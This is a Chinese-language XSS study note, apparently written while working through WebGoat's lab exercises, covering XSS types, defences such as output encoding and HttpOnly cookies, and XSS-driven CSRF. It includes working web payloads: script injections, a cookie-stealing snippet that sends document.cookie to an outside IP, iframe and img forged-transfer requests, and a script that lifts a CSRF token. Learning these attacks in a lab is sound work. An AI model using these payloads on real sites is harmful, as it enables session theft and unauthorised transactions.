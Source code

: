 # XSS学习笔记

## 0x00 前言
看WebGoat的XSS部分总结的一部分东西，算是XSS入门  
WebGoat的git地址：https://github.com/WebGoat/WebGoat/  


## 0x01 概念
Cross Site Scripting， 跨站脚本攻击，将恶意脚本注入到可信网站，获取其他用户信息或权 限。由于缩写 CSS 一般认知为层叠样式表(Cascading Style Sheets)，所以缩写为 XSS  


## 0x02 种类
1. Stored XSS（Persistent or Type-I XSS）  
    存储, 再次访问触发 
2. Reflected XSS（Non-Persistent or Type-II XSS）  
    直接触发  
3. DOM Based XSS（Type-0）  
    在浏览器的解析中改变页面 DOM 树, 且恶意代码不在返回页 面源码中回显   

注：12 年之前这么分，后来分成了 Client XSS 和 Server XSS  


## 0x03 结合 WebGoat 的 XSS 实例介绍 

### Stored XSS Attacks
**情景**：   
一个公共的留言板，所有用户可发布留言，可查看留言  
**过程**：  
A. 用户发布留言如下：   
    标题: hello(随意写)  
    内容: `<script>alert("Hacked!");</script>`   
B. 用户浏览此留言，出现弹窗  

### Reflected XSS Attacks 
**情景**：   
一个搜索框，输入内容之后回车，会提示 内容+搜索结果，如 搜索 hello，提示 hello 未找到   
**过程**：  
输入`<script>alert("Hacked!");</script>`，回车，出现弹窗  
**类似输入**：  
`<script>alert(document.cookie);</script>` 弹出 cookie  
 `<script>alert(document.form.field2.value);</script>` 弹出某个表单的 input 的值  
 
### DOM XSS Attacks
修改 dom 树  
**过程**：  
构造如下  
```html
<script> 
    Var img= document.createElement("img"); 
    img.src = "http://10.10.10.151:1234/a?" + escape(document.cookie); 
</script> 
```

即可实现窃取 cookie 的目的  


## 0x04 对 XSS 的防御
1. 对输入进行过滤，对输出进行编码  
    特殊字符编码： 
    ```
    &-->&amp; 
    <-->&lt; 
    >-->&gt; 
    "-->&quot; 
    '-->&#x27; 
    /-->&#x2F; 
    ```
2. 使用 httponly 保护 cookie，使 js 脚本不能读写 cookie  


## 0x05 利用 XSS 实现 CSRF
CSRF，Cross Site Request Forgery， 跨站请求伪造，这里介绍通过 XSS 实现的 CSRF  
攻击者构造一个特殊链接(或者特殊的 img 标签等), 然后发给受害者(想办法让这个链接出现在受害者的页面), 受害者点击之后(或者只要加载即可), 这个链接可能就会带着受害者的身份信 息发起一次受害者不知道的却已经授权的请求  

### 最基本CSRF
伪造图片，实际上使受害者访问特定链接：  
`<img src="attack?Screen=XXX&menu=YYY&transferFunds=5000"> `  
图片加载就会访问此链接  

### 有消息回传的 CSRF
有提示的 CSRF, 也就是在 CSRF 被触发后, 会再触发一次请求传给攻击者, 提示漏洞已被 触发，或者说攻击已执行  

1. 使用 iframe 实现：  
    ```html
    <iframe 
        src="http://localhost:8080/WebGoat/attack?Screen=XXX&menu=YYY&transferFunds=5000" 
        id="myFrame" frameborder="1" marginwidth="0" marginheight="0" width="800" scrolling=yes height="300" 
        onload="document.getElementById('frame2').src='http://localhost:8080/WebGoat/attack?Screen=XXX&menu=YYY&transferFunds=CONFIRM';">
    </iframe>
    <iframe id="frame2" frameborder="1" marginwidth="0" marginheight="0" width="800" scrolling=yes height="300">
    </iframe>
    ```
2. 使用 img 实现：  
    ```html
    <img  
        src="http://localhost:8080/WebGoat/attack?Screen=XXX&menu=YYY&transferFunds=5
        000"  
        onerror="document.getElementById('image2').src='http://localhost:8080/WebGoat/attack?Screen=XXX&menu=YYY&transferFunds=CONFIRM'"> 
    <img id="image2"> 
    ```

### 窃取Token的CSRF
有些表单提交会有 CSRF Token，用来防止 CSRF 攻击，如果足够了解受害者浏览页面，在 发动攻击的时候也可以窃取 Token  
```html
<script> 
    var tokensuffix; 
 
    function readFrame1() { 
        var frameDoc = document.getElementById("frame1").contentDocument; 
        var form = frameDoc.getElementsByTagName("form")[0]; 
        tokensuffix = '&CSRFToken=' + form.CSRFToken.value; 
 
        loadFrame2(); 
    } 
 
    function loadFrame2() { 
        var testFrame = document.getElementById("frame2"); 
        testFrame.src = "http://localhost:8080/WebGoat/attack?Screen=XXX&menu=YYY&transferFunds=5000" + tokensuffix; 
    } 
</script> 
 
<iframe  
    src="http://localhost:8080/WebGoat/attack?Screen=XXX&menu=YYY&transferFunds=main"  
    onload="readFrame1();" id="frame1" 
    frameborder="1" marginwidth="0" marginheight="0" width="800" scrolling=yes height="300"> 
</iframe> 
<iframe id="frame2" frameborder="1" marginwidth="0" marginheight="0" width="800" scrolling=yes height="300"></iframe> 
```


---
2017/12/19  
